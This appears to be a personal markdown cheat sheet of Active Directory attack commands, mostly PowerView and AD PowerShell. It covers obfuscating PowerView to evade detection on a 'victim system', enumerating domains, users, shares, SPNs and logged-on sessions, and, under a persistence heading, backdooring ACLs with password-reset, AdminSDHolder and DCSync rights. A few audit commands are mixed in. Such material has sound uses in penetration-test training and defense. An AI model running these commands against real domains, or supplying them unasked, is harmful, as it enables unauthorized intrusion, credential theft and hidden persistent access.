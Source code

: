 # Active Direcroty Enumeration CMDs
<p>PS = PowerShell</p>
<p>PV = PowerView</p>
<p>FP = Find-PSServiceAccounts</p>

**Active Directory PS** Import Modules - Windows 10
```powershell
Import-Module ServerManager
Add-WindowsFeature RSAT-AD-PowerShell
```
**PowerView** Import Modules - Windows 10

_Pre Install Steps_ on Dev System
```powershell
get-executionpolicy -List 							# Shows current executionpolicy
set-executionpolicy -ExecutionPolicy Unrestriced 	# Allows .ps1 script to be imported and/or executed
Import-Module Invoke-Obfusctation.ps1
Out-obfuscationTokenCommand -Path \Path\to\PowerView.ps1 |Out-File $ObfuscatedPowerViewFilename
```

_Obfuscated PowerView_ Import on Victim System
```powershell
Import-Module $ObfuscatedPowerViewFilename
```

**Potential Bypass for PowerView Loading**
```powershell
cd c:\AD\Tool\		# Probably need to create this dir or something similar
. .\PowerView.ps1	# I wonder if it's the '.' that provides the path to bypass?
```

## Domain Enumeration

**Get Current Domain:NonPS*::*
```powershell
$ADClass = [System.DirectoryServices.ActiveDirectory.Domain]

$ADClass::GetCurrentDomain()
```

**Current Domain:PV::** `Get-NetDomain`

**Current Domain:PS::** `Get-ADDomain`

**Domain Controllers::PS:** `Get-ADDomainController`

**Domain Controllers::PV:** `Get-NetDomainController`

**Domain Controllers for Another Domain::PV:** `Get-ADDomainController -Domain $domain.object`

**Domain Controllers for Another Domain::PS:** `Get-ADDomainController -DomainName $domian.object -Discover`

**Object of Another Domain:PV::** `Get-NetDomain -Domain $domain.object`

**Object of Another Domain:PS::** `Get-ADDomain -Identity $domain.object`

**Domain SID for current Domain:PV::** `(Get-ADDomain).DomainSID`

**Domain Policy for Current Domain:PV::** `(Get-DomainPolicy)."system access"`

**Domain Policy for Another Domain:PV::** `(Get-DomainPolicy -Domain $domian.object)."system access"`

**Shares in current domian:PV::** `Invoke-ShareFinder -Verbose`

**Find Sensitive Files on Computers in Domain:PV::** `Invoke-FileFinder -Verbose`

**Domain FileServers:PV::** `Get-NetFileServer`


## User Hunting
> Try and get an idea where users (specific) users are logged in.

**List Property Definitions:PS** 
```powershell
Get-ADUser -Filter * -Properties * | select -First 1 | Get-Member -MemberType *Property
```

 _Example_
 ```text
 Name                               MemberType            Definition                                                                                                                         
----                               ----------            ----------                                                                                                                         
Item                               ParameterizedProperty Microsoft.ActiveDirectory.Management.ADPropertyValueCollection Item(string propertyName) {get;}                                    
AccountExpirationDate              Property              System.DateTime AccountExpirationDate {get;set;}                                                                                   
accountExpires                     Property              System.Int64 accountExpires {get;set;}
```

**List of User Properties:PV::** `Get-UserProperty`

**List Users of X Group:PV::** `get-NetGroupMember -GroupName 'Domain Admins'`

**List User Description Field:PS::**`dsquery * -filter "(&(objectCategory=person)(objectClass=user)(!userAccountControl:1.2.840.113556.1.4.803:=2))" -attr sAMAccountName name title department description -limit 0 > users.txt`

**List Users where Description contains "built":FP**
```poweshell
finD-USerFiElD -SeARchfiEld Description -sEaRCHtErm "built"
```

**List Users where Description contains "built":PS**
```powershell
Get-ADUser -Filter 'Description -like "*built*"' -Properties Description | select SamAccountName,Description
```

**Account Bad Password Count & Logon Count * Pwd Last Set:PS::**

```powershell
Get-ADUser -Filter * -Properties SamAccountName,badPwdCount |select SamAccountName,BadPwdCount

Get-ADUser -Filter * -Properties SamAccountName,logonCount |Select-Object SamAccountName,LogonCount

Get-ADUser -Filter * -Properties PasswordLastSet |select SamAccountName,PasswordLastSet
```

*Identify machines inside the domain OR do reverse lookups via LDAP*

**PS::Hostnames:** `get-adcomputer –filter * -Properties ipv4address | where {$_.IPV4address} | select name,ipv4address`

**PS::IP Addresses:** `get-adcomputer -filter {ipv4address -eq '*IP*'} -Properties Lastlogondate,passwordlastset,ipv4address` <-- Currently Broken

**Domain Group Policies::PV:** `Get-NetGPO | select displayname,name,whenchanged`

**User Group Access Rights to Particular Group:** `Get-NetGroupMember 'Domain Admins' -Recurse`

**Get Domain Admins** & then tokenize all displaynames to requery for all users that match that patter
```powershell
Get-NetGroupMember -GroupName 'Domain Admins' -FullData | %{ $a=$_.displayname.split('')[0..1] -join ' '; Get-NetUser -Filter "(displayname=*$a*)" } | Select-Object -Property displayname,samaccountname
```
**Get list of all Forest Users:** `RetrieveAllUsersFromAD.ps1`

https://gallery.technet.microsoft.com/scriptcenter/Retrieve-All-Users-from-AD-b76e3443


### SPN Scanning

**Find-PSServiceAccounts** from github.com/PyroTek3/PowerShell-AD-Recon `Find-PSServiceAccounts`
> Disguised with _Invoke-Obfuscate_ via the 'default' means above, kinda makes it unusable. 
> Howerver, it doesn't look like internal controls stop this from just being sent into the envirnment.

**SPN with PS:** `Get-ADComputer -filter {ServicePrincipalName -Like "*SPN*" } -Properties OperatingSystem,OperatingSystemVersion,OperatingSystemServicePack,PasswordLastSet,LastLogonDate,ServicePrincipalName,TrustedForDelegation,TrustedtoAuthForDelegation`

### AD Schema

`Invoke-UserHunter -Stealth -ShowAll`

### Admin required CMDs

`get-netlocalgroup -computername $DomainController` 

**Actively Logged on Users:PV**
`get-netloggedon -computername $systemName` #requires Local Admin

**Locally Logged Users on Computer:PV**
`get-loggedonlocal -ComputerName $SystemName

**Lasted Logged User:PV**
`get-LastLoggedOn -ComputerName $SyetemName

### ACLs
**AD ACLs for given user:** `Get-ObjectACL -ResolveGUIDs -SamAccountName SamAccountName`

**Persitance**
*Add backdoored ACL.  Grant SamAccountName1 right to reset the password for SamAccountName2*
```PowerShell
Add-ObjectACL -TargetSamAccountName SamAccountName2 -PrincipalSamAccountName
SamAccountName1 -Rights ResetPassword
```

*Backdoor permissions for AdminSDHolder*
```powershell
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName SamAccountName1 -Verbose -Rights All
```
*Audit ACL rights for AdminSDHolder*
```powershell
Get-ObjectAcl -ADSprefix 'CN=AdminSDHolder,CN=System' -ResolveGUIDs | ?{$_.IdentityReference -match 'SamAccountName1'}
```

*Backdoor rights for DCSync*
```powershell
Add-ObjectACL -TargetDistinguishedName "dc=els,dc=local" -PrincipalSamAccountName SamAccountName1 -Rights DCSync
```

*Audit users who have DCSync rights*
```powershell
Get-ObjectACL -DistinguishedName "dc=els,dc=local" -ResolveGUIDs | ? {($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match'GenericAll') }
```

*Audit GPO Permission*
```powershell
Get-NetGPO | ForEach-Object {Get-ObjectAcl -ResolveGUIDs -Name $_.name} | WhereObject {$_.ActiveDirectoryRights -match 'WriteProperty'}
```

*Scan for non-standard ACL permission sets*
```powershell
Invoke-ACLScanner
```
### Domain Trusts
